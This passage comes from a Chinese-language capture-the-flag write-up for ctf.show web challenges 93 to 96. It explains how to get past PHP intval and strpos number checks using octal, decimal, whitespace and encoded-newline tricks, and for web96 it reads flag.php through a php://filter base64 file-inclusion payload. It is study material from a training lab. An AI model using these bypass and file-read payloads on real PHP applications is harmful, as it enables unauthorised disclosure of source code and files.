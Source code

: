 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101156543.png)

十六进制和科学计数法不能用了, 但八进制和小数点还能用

```
http://637429f9-17ba-4740-8ce0-d6d0a4d30560.challenge.ctf.show/?num=4476.1
http://637429f9-17ba-4740-8ce0-d6d0a4d30560.challenge.ctf.show/?num=010574
```

## web94

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101200379.png)

注意这里的 `!strpos()`, `strops()` 返回对应字符第一次出现的位置

如果我们使用八进制 `010574`, `strpos("010574", "0")` 返回0, 也就是 false, 加了 `!` 后反而变成 true

所以字符串中必须有0, 但0不能在首位 (过滤了八进制), 可以用小数点绕过

```
http://7032c441-7ef1-4baa-bfb3-212c1d5cdb9d.challenge.ctf.show/?num=4476.0123
```

网上 wp 中有一个加空格的方法, 可以绕过八进制的过滤

```
http://7032c441-7ef1-4baa-bfb3-212c1d5cdb9d.challenge.ctf.show/?num=%20010574
```

## web95

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101207608.png)

小数点过滤了, 可以用空格+八进制, 空格在转换时会被自动去除

测试的时候发现前面加上其它东西也能通过

```
http://b4c7751b-3de6-4337-9952-205d726abbcc.challenge.ctf.show/?num=%20010574
http://b4c7751b-3de6-4337-9952-205d726abbcc.challenge.ctf.show/?num=%0a010574
http://b4c7751b-3de6-4337-9952-205d726abbcc.challenge.ctf.show/?num=%09010574
http://b4c7751b-3de6-4337-9952-205d726abbcc.challenge.ctf.show/?num=+010574
```

## web96

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208101213482.png)

类似文件包含

```
http://ae720f5a-c4fd-4b54-9e74-8e27500c3eb7.challenge.ctf.show/?u=php://filter/convert.base64-encode/resource=flag.php
```

或者用绝对路径和相对路径
